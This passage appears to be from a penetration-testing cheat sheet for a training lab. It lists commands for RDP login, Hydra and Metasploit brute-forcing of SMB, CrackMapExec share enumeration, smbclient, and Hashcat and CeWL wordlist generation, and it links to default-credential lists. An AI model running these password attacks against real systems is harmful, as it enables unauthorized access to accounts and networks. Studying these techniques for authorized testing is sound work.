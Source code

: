 ```Shell
xfreerdp /v:10.129.42.197 /u:user /p:password
```

### SMB

#### Hydra - SMB
```Shell
hydra -L user.list -P password.list smb://10.129.42.197
```

#### Metasploit - SMB
```Shell
use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts 10.129.42.197
run
```

#### CrackMapExec - SMB
```Shell
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

#### Smbclient
```Shell
smbclient -U user \\\\10.129.42.197\\SHARENAME
```


## Password Mutations

[WPengine](https://wpengine.com/resources/passwords-unmasked-infographic/)

#### Generating a Rule-based Wordlist using Hashcat
```Shell
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

#### Examining Exisiting Rules in Hashcat
```cmd.exe
dir C:\Program Files (x86)\hashcat-6.2.5\rules
```

#### Generating Wordlists Using CeWL
```Shell
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```

## Password Reuse / Default Passwords

[Default Credentials Cheatsheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)
[Default Router Login Password For Top Router Models](https://www.softwaretestinghelp.com/default-router-username-and-password-list/)
